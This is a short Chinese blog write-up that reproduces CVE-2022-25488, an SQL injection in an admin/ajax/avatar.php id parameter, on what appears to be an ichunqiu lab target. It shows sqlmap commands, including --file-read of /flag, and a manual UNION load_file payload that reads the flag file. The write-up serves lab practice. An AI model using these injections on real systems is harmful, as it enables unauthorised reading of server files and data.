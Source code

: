 ```yaml
---
title: CVE-2022-25488
subtitle:
date: 2025-03-14T12:13:30+08:00
slug: bd46488
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->



![](images/2745a2b099742c4446fd668420e9ea2b.png)

访问网站发现提示404，

![](images/a442de9815c07d10ffa1cd43b3a11721.png)

尝试访问所给路径/admin/ajax/avatar.php，依然没有任何显示，访问上一路径

![](images/1ccf0ae4708780f319188f82bdd0b5ee.png)

访问其他文件得到报错

![](images/ab1be5fd8475bfc5e3cfcae18dea3f6c.png)

拿到参数id，sqlmap进行尝试

``` Shell
sqlmap -u "http://eci-2ze1ldkkzy8hjpn1egve.cloudeci1.ichunqiu.com/admin/ajax/avatar.php?id=1"
```



![](images/cbb840f42b684ef446954e80ab685f23.png)

得到数据库类型，进行读flag

``` Shell
sqlmap -u "http://eci 2ze1ldkkzy8hjpn1egve.cloudeci1.ichunqiu.com/admin/ajax/avatar.php?id=1" -D "mysql" --file-read "/flag"
```



![](images/5cd3df30766743afc166042079f90002.png)



手工注入
查看avatar.php内容

![](images/d7f9a5e9bffaa598faa8a48d3ab0563b.png)

尝试注入点?id=1和?id=1' ，发现在id=1时源码发生变化

![](images/1d7ca1b0d577027c1bfc151240470eff.png)

再次尝试id=1 and 1=1 ，判断为字符型

![](images/b82417376d2dc6503ee50c95220cd12e.png)

sql报错注入，使id语法错误，回显flag
?id=-1 union (select load_file('/flag'))#

![](images/5ed87b645cfc9859d8ddfa114515d68f.png)

同样拿到flag





